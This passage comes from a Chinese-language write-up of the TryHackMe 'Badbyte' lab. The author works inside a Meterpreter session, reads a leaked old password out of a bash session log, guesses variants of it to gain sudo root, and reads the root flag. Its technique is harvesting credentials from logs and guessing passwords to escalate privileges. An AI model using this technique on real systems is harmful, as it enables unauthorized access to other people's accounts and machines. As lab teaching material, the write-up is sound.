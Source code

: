 ```
-rw-rw-r-- 1 cth  cth    38 Mar 23  2021 user.txt
**$**
```

可悲的是，我仍然是一个超级 00b，因此需要一些黑客的帮助，这些黑客过去曾经做过这个房间。我查阅了其他文章，在 [Aldeid (n.d.)](https://www.aldeid.com/w/index.php?title=TryHackMe-Badbyte&oldid=38670) wiki 上找到了一篇建议转储`/var/log/bash.log`文件的文章，我继续这么做了:

```
**meterpreter > cat /var/log/bash.log**

Script started on 2021-03-23 21:05:06+0000

[... snip ... ]
cth@badbyte:~$ G00dP@$sw0rd2020
G00dP@: command not found
cth@badbyte:~$ passwd
Changing password for cth.
(current) UNIX password: 
Enter new UNIX password: 
Retype new UNIX password: 
passwd: password updated successfully
cth@badbyte:~$ ls

[... snip ...]
Script done on 2021-03-23 21:07:03+0000

**meterpreter>**
```

从这些输出中，我算出了`cth`的旧密码是`G00dP@$sw0rd2020`。按照应用颠覆性认知密码攻击的主题，我决定对这个基本密码进行一些反复试验:

```
**meterpreter > shell**
Process 1609 created.
Channel 9 created.
**$ id**
uid=1000(cth) gid=1000(cth) groups=1000(cth),27(sudo)

[... snip ...]
**$ sudo -S -k /bin/bash**
[sudo] password for cth: **G00dP@$$w0rd2020**
Sorry, try again.
[sudo] password for cth: **G00dP@$$w0rd2021**
Sorry, try again.
[sudo] password for cth: **G00dP@$sw0rd2021**
**# id**
uid=0(root) gid=0(root) groups=0(root)
```

当然还有“大奖”

```
**# ls -l /root**
total 4
-rw-r--r-- 1 root root 1185 Mar 23  2021 root.txt
**# cat /root/root.txt**

[... snip ...]
THM{ [redacted] }
 ________________________
< Made with ❤ by BadByte >
 ------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```